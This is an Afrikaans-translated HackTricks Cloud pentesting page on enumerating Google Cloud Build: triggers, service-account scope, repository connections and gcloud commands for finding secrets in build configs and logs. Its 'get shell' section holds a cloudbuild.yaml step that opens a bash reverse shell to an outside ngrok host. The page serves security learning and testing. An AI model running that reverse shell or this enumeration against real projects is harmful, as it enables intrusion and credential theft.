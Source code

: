 # GCP - Cloud Build Enum

<details>

<summary><strong>Leer AWS-hacking vanaf nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy jou **maatskappy geadverteer wil sien in HackTricks** of **HackTricks in PDF wil aflaai** Kyk na die [**INSKRYWINGSPLANNE**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**Die PEASS Familie**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel jou haktruuks deur PRs in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslag.

</details>

## Basiese Inligting

Google Cloud Build is 'n bestuurde CI/CD-platform wat **die outomatiese sagtewarebou- en vrystellingsprosesse outomatiseer**, wat integreer met **bronkode-opslagplaas en 'n wye verskeidenheid programmeertaale ondersteun. Dit **laat ontwikkelaars toe om kode outomaties te bou, toets en implementeer** terwyl dit die buigsaamheid bied om boustappe en werkstrome aan te pas.

Elke Cloud Build Trigger is **verwant aan 'n Cloud Repository of direk gekoppel met 'n eksterne opslagplaas** (Github, Bitbucket en Gitlab).

{% hint style="success" %}
Ek kon nie enige manier sien om die Github/Bitbucket-token van hier of van Cloud Repositories te steel nie omdat wanneer die opslagplaas afgelaai word, dit via 'n [https://source.cloud.google.com/](https://source.cloud.google.com/) URL toegang kry en Github nie deur die klient toegang kry nie.
{% endhint %}

### Gebeure

Die Cloud Build kan geaktiveer word as:

* **Druk na 'n tak**: Spesifiseer die tak
* **Druk 'n nuwe etiket**: Spesifiseer die etiket
* **Pull-aanvraag**: Spesifiseer die tak wat die PR ontvang
* **Handmatige Uitnodiging**
* **Pub/Sub-boodskap:** Spesifiseer die onderwerp
* **Webhook-gebeurtenis**: Sal 'n HTTPS-URL blootstel en die versoek moet geoutentiseer word met 'n geheim

### Uitvoering

Daar is 3 opsies:

* 'n yaml/json **wat die bevele spesifiseer** om uit te voer. Gewoonlik: `/cloudbuild.yaml`
* Slegs een wat "inline" in die webkonsolide en in die opdraggewer gespesifiseer kan word
* Mees algemene opsie
* Relevant vir ongeoutentiseerde toegang
* 'n **Dockerfile** om te bou
* 'n **Buildpack** om te bou

### SA-permissies

Die **Diensrekening het die `cloud-platform`-omvang**, sodat dit **alle die voorregte kan gebruik.** As **geen SA gespesifiseer is** (soos wanneer 'n indiening gedoen word) sal die **verstek SA** `<proj-nommer>@cloudbuild.gserviceaccount.com` **gebruik word.**

Standaard word geen toestemmings gegee nie, maar dit is redelik maklik om dit te gee:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Goedkeurings

Dit is moontlik om 'n Cloud Build te konfigureer om **goedkeurings vir bou-uitvoerings te vereis** (standaard gedeaktiveer).

### Verbindings & Opberging

Verbindings kan geskep word oor:

* **GitHub:** Dit sal 'n OAuth-prompt wys wat vra vir toestemmings om 'n Github-token te kry wat binne die **Secret Manager gestoor sal word.**
* **GitHub Enterprise:** Dit sal vra om 'n **GithubApp** te installeer. 'n **Outentiseringsleutel** van jou GitHub Enterprise-gashuis sal geskep word en in hierdie projek as 'n **Secret Manager-geheim gestoor word.**
* **GitLab / Enterprise:** Jy moet die API-toegangstoken en die Lees-API-toegangstoken voorsien wat in die **Secret Manager gestoor sal word.**

Sodra 'n verbinding gegenereer is, kan jy dit gebruik om **opslagplase wat die Github-rekening toegang tot het, te koppel.**

Hierdie opsie is beskikbaar deur die knoppie:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
Let daarop dat opslagplase wat op hierdie manier gekoppel is, **slegs beskikbaar is in Triggers wat 2de generasie gebruik.**
{% endhint %}

### Koppel 'n Opberging

Dit is nie dieselfde as 'n **`verbindings`** nie. Dit maak **verskillende** maniere moontlik om **toegang tot 'n Github- of Bitbucket-opslagplaas** te kry, maar **skep nie 'n verbindingsobjek nie, maar dit skep 'n opbergingsobjek (van 1ste generasie).**

Hierdie opsie is beskikbaar deur die knoppie:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Opberging

Soms sal Cloud Build **'n nuwe opberging genereer om die lêers vir die trigger te stoor**. Dit gebeur byvoorbeeld in die voorbeeld wat GCP aanbied met:
```bash
git clone https://github.com/GoogleCloudBuild/cloud-console-sample-build && \
cd cloud-console-sample-build && \
gcloud builds submit --config cloudbuild.yaml --region=global
```
'n Stoorhouer genaamd [security-devbox\_cloudbuild](https://console.cloud.google.com/storage/browser/security-devbox\_cloudbuild;tab=objects?forceOnBucketsSortingFiltering=false\&project=security-devbox) is geskep om 'n `.tgz` met die lêers wat gebruik moet word, te stoor.

### Kry dop
```yaml
steps:
- name: bash
script: |
#!/usr/bin/env bash
bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/12395 0>&1
options:
logging: CLOUD_LOGGING_ONLY
```
Installeer gcloud binne cloud build:
```bash
# https://stackoverflow.com/questions/28372328/how-to-install-the-google-cloud-sdk-in-a-docker-image
curl https://dl.google.com/dl/cloudsdk/release/google-cloud-sdk.tar.gz > /tmp/google-cloud-sdk.tar.gz
mkdir -p /usr/local/gcloud
tar -C /usr/local/gcloud -xvf /tmp/google-cloud-sdk.tar.gz
/usr/local/gcloud/google-cloud-sdk/install.sh
```
### Opsomming

Jy kan **sensitiewe inligting in boukonfigurasies en logboeke vind**.
```bash
# Get configured triggers configurations
gcloud builds triggers list # Check for the words github and bitbucket
gcloud builds triggers describe <trigger-name>

# Get build executions
gcloud builds list
gcloud builds describe <build-uuid> # Get even the build yaml if defined in there
gcloud builds log <build-uuid> # Get build logs

# List all connections of each region
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build connections in region: $region"
connections=("${(@f)$(gcloud builds connections list --region="$region" --format='value(name)')}")
if [[ ${#connections[@]} -eq 0 ]]; then
echo "No connections found in region $region."
else
for connection in $connections; do
echo "Describing connection $connection in region $region"
gcloud builds connections describe "$connection" --region="$region"
echo "-----------------------------------------"
done
fi
echo "========================================="
done

# List all worker-pools
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build worker-pools in region: $region"
gcloud builds worker-pools list --region="$region"
echo "-----------------------------------------"
done
```
### Voorregskaping

{% content-ref url="../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md" %}
[gcp-cloudbuild-privesc.md](../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md)
{% endcontent-ref %}

### Ongeagte Toegang

{% content-ref url="../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md" %}
[gcp-cloud-build-unauthenticated-enum.md](../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md)
{% endcontent-ref %}

### Na-Exploitasie

{% content-ref url="../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md" %}
[gcp-cloud-build-post-exploitation.md](../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md)
{% endcontent-ref %}

<details>

<summary><strong>Leer AWS-hacking vanaf nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy jou **maatskappy geadverteer wil sien in HackTricks** of **HackTricks in PDF wil aflaai** Kyk na die [**INSKRYWINGSPLANNE**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**Die PEASS Familie**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel jou haktruuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslag.

</details>
